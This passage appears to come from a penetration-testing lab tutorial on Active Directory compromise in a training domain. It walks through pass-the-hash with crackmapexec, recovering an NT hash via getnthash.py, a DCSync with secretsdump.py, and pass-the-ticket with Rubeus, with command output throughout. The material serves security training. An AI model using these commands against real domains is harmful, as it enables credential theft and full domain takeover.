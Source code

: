 ```shell-session
$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

### Submitting a TGS Request for Ourselves Using getnthash.py

We can also take an alternate route once we have the TGT for our target. Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)](https://stealthbits.com/blog/what-is-the-kerberos-pac/) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.

```shell-session
$ python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

We can then use this hash to perform a DCSync with secretsdump.py using the `-hashes` flag.

### Using Domain Controller NTLM Hash to DCSync
```shell-session
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.

### Requesting TGT and Performing PTT with DC01$ Machine Account
```powershell-session
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<base64 certificate> /ptt
```

We can then type `klist` to confirm that the ticket is in memory.

### Confirming the Ticket is in Memory
```powershell-session
PS C:\Tools> klist

Current LogonId is 0:0x4e56b

Cached Tickets: (3)

#0>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

#1>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 3/30/2022 15:50:25 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```